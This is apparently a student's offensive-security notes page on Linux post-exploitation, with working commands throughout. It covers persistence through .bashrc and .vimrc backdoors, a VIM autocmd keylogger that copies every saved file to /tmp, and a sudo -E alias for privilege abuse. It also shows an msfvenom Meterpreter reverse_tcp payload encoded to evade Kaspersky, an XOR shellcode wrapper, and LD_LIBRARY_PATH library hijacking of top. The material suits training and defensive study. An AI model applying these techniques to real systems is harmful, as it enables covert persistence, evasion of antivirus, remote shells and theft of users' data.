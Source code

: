 ## User Configuration Files

In Linux systems, applications frequently store user-specific configuration files and subdirectories
within a user’s home directory. These configuration files control how applications behave for a specific user and are typically only writable by the users or root.
If we compromise a system under a given user, we can modify those files and change how applications behave for them.

Two common examples are **.bash_profile** and **.bashrc**.
- **.bash_profile** is executed when logging in to the system initially(login to machine, or ssh)
- **.bashrc** is executed when a new terminal window is opened from an existing login session
- **can be useful when trying to maintain persistence or escalate privileges**

Example, append touch command to .bashrc, and spawn a new shell will trigger the command execution
```
linux@linuxvictim:~$ echo "touch /tmp/bashtest.txt" >> ~/.bashrc

linux@linuxvictim:~$ /bin/bash
linux@linuxvictim:~$ ls -al /tmp/bashtest.txt
-rw-rw-r-- 1 linux linux 0 Aug 26 15:20 /tmp/bashtest.txt
```
## Attcking with VIM text editor
#### VIM config file backdoor

On many Linux systems, user-specific VIM configuration settings are located in a user’s home directory in the .vimrc file. The commands specified in the .vimrc file are executed when VIM is launched. we can leverage the VIM plugin directory. As long as the files have a .vim extension, all VIM config files located in the user’s **~/.vim/plugin** directory will be loaded
when VIM is run.

We add one line in the user’s **.vimrc** file to the following, this command will mutes debug output and execute /.vimrunscript script.
```
:silent !source ~/.vimrunscript
```

On a Debian or similar system, if the user runs VIM via sudo, our script being sourced does not persist the user’s shell environment
information when moving to a sudo context. We can add an alias to the user’s .bashrc file. source command makes alias changes to go into effect right away.

```
alias sudo="sudo -E"

linux@linuxvictim:~$ source ~/.bashrc
```
#### VIM config keylogger
We can use **:autocmd** in a VIM configuration file or in the editor to set actions for a collection of predefined events. All detials commands can be found at [Vim documentation: autocmd](http://vimdoc.sourceforge.net/htmldoc/autocmd.html)

Now we can set up an autocommand that fires on the BufWritePost action and then writes the content of the file to a log file we specify. We will put our command in
```/home/linux/.vim/plugin/settings.vim```

```
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
**BufWritePost** us the event, meaning that after a buffer is written to a file, we will perform our action. “*” specifies this action will be performed for all files being edited. **:w!** save the buffer contents, **!** is a force modifier, it will overwrite an existing file.

VIM supports the use of basic if statements in its configuration scripts
```
:if <some condition>
:<some command>
:else
:<some alternative command>
:endif
```

below example will check if user os running as root

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

## Bypass AV with encoder and C code wrapper

First, let's test our linux scan with [eicar](https://www.eicar.org/?page_id=3950) project. ```sudo kesl-control --scan-file ./eicar.txt```. The the eicar.txt should be removed. Otherwise, the scanner is not working. We can also check the Kaspersky’s event log for detected events ```sudo kesl-control -E --query | grep DetectName```.

#### Bypass with x64/zutto_dekiru encoder
this method bypass Kaspersky scanner, but not all scanners at [Antiscan.me](https://antiscan.me/)

```
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.10.6 -e x64/zutto_dekiru -f elf -o /tmp/met64zutto.elf
```

#### Bypass with C code wrapper and xor encrytion.

We can use the msfvenom to create c shell code, xor the shell code, wrap the xored shell code in c file, add decrypt function, and compile c file into exe.
- [encoder.c](/08PlayingWithLinux/encoder.c) encrypt shell code and print out encrypted payload
- [CWrapper.c](/08PlayingWithLinux/CWrapper.c) decrypt shell code and run

Compile encoder and run encoder
```
kali@kali:~$ gcc -o encoder.out encoder.c

kali@kali:~$ ./encoder.out
\x20\x73\x12\x45\x4F\x02\xCF\x8A\
```

Compile shellcode wrapper, don't forget to compile the c code in the same architecture as target's
```
kali@kali:~$ gcc -o CWrapper.out CWrapper.c -z execstack
```

## Shared Libraries attack in Linux

Like dll in windows, shared libraries allow code to be defined separately from specific applications and reused. 
When applications run on linux, they check for required libraries in a number of locations in specific order, once they find a copy of the library, they will stop searching and load the module. The directory search order is:
- 1.application’s RPATH5 value
- 2.LD_LIBRARY_PATH environment variable
- 3.the application’s RUNPATH
- 4./etc/ld.so.conf.
- 5.System library directories: /lib, /lib64, /usr/lib, /usr/lib64, /usr/local/lib, /usr/local/lib64, and
potentially others.

Let's wal though an example with up command in linux.
- 1.Let's create a c file [lib.c](/08PlayingWithLinux/lib.c), then compile it to lib resource
- 2.We can compile the share libary with the follwoing command, -Wall->give verbose warnings when compiling, -fPIC ->use position independent code, since shared libraries are loaded in unpredictable memeory locations. -shared -> create a shared library from object file

```
offsec@linuxvictim:~/ldlib$ gcc -Wall -fPIC -c -o lib.o lib.c
offsec@linuxvictim:~/ldlib$ gcc -shared -o lib.so lib.o
```
- 3. We use **ldd** command against top program to understand which libraries are being loaded when top executes.
```
offsec@linuxvictim:~$ ldd /usr/bin/top
linux-vdso.so.1 (0x00007ffd135c5000)
libprocps.so.6 => /lib/x86_64-linux-gnu/libprocps.so.6 (0x00007ff5ab935000)
libtinfo.so.5 => /lib/x86_64-linux-gnu/libtinfo.so.5 (0x00007ff5ab70b000)
libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
```
Okay,libgpg-error.so.0 looks intersting, This is likely
to be loaded by the application but not likely to be called unless the program encounters an error therefore this shouldn’t prevent normal use of the application. Let’s try to hijack.

- 4. We rename .so file to match the one we’re hijacking and set the environment variable for LD_LIBRARY_PATH
```
offsec@linuxvictim:~/ldlib$ export LD_LIBRARY_PATH=/home/offsec/ldlib/
offsec@linuxvictim:~/ldlib$ cp lib.so libgpg-error.so.
```
- 5. Execute the top program and we identify symbol gpgrt_lock_lock version GPG_ERROR_1.0 not defined.
```
offsec@linuxvictim:~/ldlib$ top
top: /home/offsec/ldlib/libgpg-error.so.0: no version information available (required
by /lib/x86_64-linux-gnu/libgcrypt.so.20)
top: relocation error: /lib/x86_64-linux-gnu/libgcrypt.so.20: symbol gpgrt_lock_lock
version GPG_ERROR_1.0 not defined in file libgpg-error.so.0 with link time reference
```
- 6. this means that certain variables or functions that the program expects to find when loading the original library have not been defined in our malicious library. we can simply define some variables with the same names that it expects and top should run. We will examine the libgpg-error.so.0  to detemine what symbols it contains using the **readelf** The error message tell use to look for **GPG_ERROR_1.0.**

-s flag for symblos, --wide flag to force the untruncated names of the symbols, awk to pring 8th filed and append int in front of the resutlt, sed command to replace version
information with a semicolon in order to finalize the variable definitions
```
offsec@linuxvictim:~/ldlib$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
int gpgrt_onclose;
int _gpgrt_putc_overflow;
int gpgrt_feof_unlocked;
...
int gpgrt_fflush;
int gpgrt_poll;
```
